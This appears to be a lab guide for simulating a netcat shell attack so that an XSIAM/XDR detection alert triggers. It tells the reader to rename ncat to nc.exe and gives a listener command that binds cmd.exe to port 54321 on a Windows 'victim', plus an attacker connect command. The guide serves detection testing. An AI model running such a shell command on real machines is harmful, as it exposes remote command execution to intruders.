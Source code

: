 # XSIAM Attack Simulation Instructions

Follow these steps to simulate the attack and ensure the alert is triggered correctly.

---

### 1. Verify Endpoint Connection
Ensure that:
- At least one endpoint is connected with the **XDR agent**. This endpoint will act as the victim machine.
- You have an attacker machine ready to establish a connection with the victim.

---

### 2. Download `ncat` (NMAP)
Download the `ncat` tool, part of the NMAP suite:
- **Windows:** Download `ncat` from [nmap.org](https://nmap.org/ncat/) and install it manually.
- **Linux:** It might already be preinstalled. If not, install it using your package manager (e.g., `apt`, `yum`, or `dnf`).

**Note:** Ensure `ncat` is installed on both the attacker and victim machines:
- The attacker machine will send data.
- The victim machine will listen for the connection.

---

### 3. Mandatory Configuration
Rename the `ncat` executable on the Windows machine to `nc.exe`:
```plaintext
Rename the file to: nc.exe
```
This step is required for the detector to function properly.  
**Failure to complete this step will prevent the alert from triggering.**

---

### 4. Start Listening on the Victim Machine
On the victim machine, start a listening port using the following command:
```bash
nc -n -v -l -p 54321 -e c:\Windows\System32\cmd.exe
```

---

### 5. Initiate the Connection from the Attacker Machine
On the Windows (attacker) machine, initiate a connection to the victim machine using the command below:
```cmd
nc <victim_ip> <listening_port>
```
Replace:
- `<victim_ip>` with the IP address of the victim machine.
- `<listening_port>` with the port configured earlier (e.g., `54321`).

---

### Example
- **Victim Command:**
  ```bash
  nc -n -v -l -p 54321 -e c:\Windows\System32\cmd.exe
  ```
- **Attacker Command:**
  ```cmd
  nc 192.168.1.100 54321
  ```

Now, your environment is ready for the attack simulation.
